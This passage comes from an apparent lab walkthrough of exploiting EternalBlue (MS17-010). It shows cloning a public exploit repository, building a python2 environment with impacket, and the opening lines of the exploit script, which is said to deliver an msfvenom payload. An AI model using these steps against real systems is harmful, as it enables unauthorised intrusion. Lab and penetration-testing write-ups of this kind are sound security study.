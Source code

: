If you were in a real engagement/assessment, you might just want to leave it at that and tell your client that they're susceptible to this attack. EternalBlue can break a system if you spam it too much, but because this is a lab environment, we're okay.

## Setting up the Exploit

There are many versions of this exploit out there; the one I will use is is [helviojunior's](https://github.com/helviojunior/MS17-010), which is a fork of [worawit's repo](https://github.com/worawit/MS17-010). Another that I've seen be used is from [3ndG4me](https://github.com/3ndG4me/AutoBlue-MS17-010), but I don't like it as much.

The repository that I use comes with a `send_and_execute.py` which we can use to trigger an msfvenom payload. I'll clone the repository into my `/opt` directory.
```sh
kali@kali:/opt$ sudo git clone https://github.com/helviojunior/MS17-010
Cloning into 'MS17-010'...
remote: Enumerating objects: 202, done.
remote: Total 202 (delta 0), reused 0 (delta 0), pack-reused 202
Receiving objects: 100% (202/202), 118.50 KiB | 689.00 KiB/s, done.
Resolving deltas: 100% (115/115), done.
```

I'll also need to set up a virtual enviornment since the exploit is in python2. Once that's done, the exploit also depends on impacket, which I'll install in the environment, along with impacket's dependencies.

```sh
kali@kali:/opt/MS17-010$ sudo virtualenv blue -p $(which python2)
created virtual environment CPython2.7.18.final.0-64 in 438ms
  creator CPython2Posix(dest=/opt/MS17-010/blue, clear=False, no_vcs_ignore=False, global=False)
  seeder FromAppData(download=False, pip=bundle, setuptools=bundle, wheel=bundle, via=copy, app_data_dir=/root/.local/share/virtualenv)
    added seed packages: pip==20.3.4, pkg_resources==0.0.0, setuptools==44.1.1, wheel==0.34.2
  activators BashActivator,CShellActivator,FishActivator,PowerShellActivator,PythonActivator
kali@kali:/opt/MS17-010$ source blue/bin/activate
(blue) kali@kali:/opt/MS17-010$ pip install -r ../impacket/requirements.txt
[you don't want to see imports]
(blue) kali@kali:/opt/MS17-010$ cd ../impacket; sudo pip install .
[MORE IMPORTS]
```

Sometimes the exploit is finnicky and wants a non-empty credential, even though credentials aren't necessary most of the time.

```python
#!/usr/bin/python
from impacket import smb, smbconnection
from mysmb import MYSMB
from struct import pack, unpack, unpack_from
import sys
import socket
import time
import string
import random
import os.path

'''
MS17-010 exploit for Windows 2000 and later by sleepya

Note:
- The exploit should never crash a target (chance should be nearly 0%)
- The exploit use the bug same as eternalromance and eternalsynergy, so named pipe is needed

Tested on:
- Windows 2016 x64
- Windows 10 Pro Build 10240 x64
- Windows 2012 R2 x64
```